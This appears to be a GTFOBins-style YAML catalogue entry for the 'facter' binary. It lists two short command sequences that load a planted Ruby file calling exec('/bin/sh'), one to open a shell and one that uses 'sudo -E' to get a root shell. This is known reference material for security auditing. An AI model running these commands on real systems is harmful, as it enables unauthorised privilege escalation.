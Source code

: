 ```yaml
---
name: facter
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF sudo -E facter
---
```

